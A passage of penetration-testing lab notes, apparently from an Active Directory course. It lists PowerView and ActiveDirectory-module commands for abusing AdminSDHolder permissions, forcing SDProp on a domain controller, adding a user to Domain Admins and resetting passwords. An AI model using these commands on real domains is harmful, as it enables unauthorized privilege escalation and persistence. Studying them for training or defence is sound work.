 ###### Now we need to get the propagator script over to the DC

* `$sess = New-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local`
* `Invoke-Command -FilePath .\Invoke-SDPropagator.ps1 -Session $sess`
* `Enter-PSSession -Session $sess`
  - `Invoke-SDPropagator -showProgress -timeoutMinutes 1`
  - This will force the changes we made to the AdminSDHolder permissions

##### Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder

* `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights ResetPassword -Verbose`
* `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights WriteMembers -Verbose`

###### Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory

* `Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose`

###### For pre-Server 2008 machines

* `Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose`

###### Check the Domain Admins permission - PowerView as normal user

* `Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'student1'}`

###### Using ActiveDirectory Module

* `(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'}`

##### Abusing FullControl using PowerView_dev

* `Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose`

###### Using ActiveDirectory Module

* `Add-ADGroupMember -Identity 'Domain Admins' -Members testda`

##### Abusing ResetPassword using PowerView_dev

  * `Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose`

###### Using ActiveDirectory Module

  * `Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose`

	* Examples

* PowerShell as regular user account:
